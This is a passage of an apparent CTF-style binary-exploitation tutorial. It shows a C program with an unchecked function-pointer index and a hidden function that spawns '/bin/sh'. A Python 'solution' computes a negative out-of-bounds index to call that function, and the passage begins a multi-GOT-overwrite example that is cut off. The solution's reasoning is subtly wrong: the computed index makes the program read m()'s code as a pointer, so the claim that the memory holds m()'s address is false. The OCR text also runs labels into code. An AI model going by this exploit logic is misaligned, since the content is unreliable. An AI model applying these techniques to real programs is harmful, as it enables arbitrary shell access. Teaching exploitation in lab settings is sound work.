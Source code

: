 void m() {
    // Secret function not in array!
    system("/bin/sh");
}

void (*funcs[5])();
funcs[0] = n;
// ... other functions

// User input
int idx = atoi(argv[1]);
funcs[idx]();  // Can we call m() even though it's not in array?
Solution:
python# Find addresses
m_addr = 0x08048454      # Address of m()
funcs_addr = 0x08049988  # Address of funcs array

# Calculate magic index
# funcs[idx] means: *(funcs + idx * 4)
# We want: funcs + idx * 4 = m_addr
# So: idx = (m_addr - funcs_addr) / 4

idx = (0x08048454 - 0x08049988) / 4
# This will be negative! That's OK!
# funcs[idx] will read memory BEFORE the array
# And that memory contains the address we want!
Learn More:

📖 Arbitrary Code Execution
🛠️ Practice: pwnable.kr - bof


Level 7 - Advanced GOT & Memory Corruption
🎯 Concepts Covered
1. Multiple GOT Overwrites
Scenario:
Sometimes you need to overwrite multiple GOT entries for complex exploits.
Strategy:
python# Overwrite two functions
got_puts = 0x08049804
got_exit = 0x0804981c

target1 = 0x08048530  # Address to write to puts
target2 = 0x08048590  # Address to write to exit
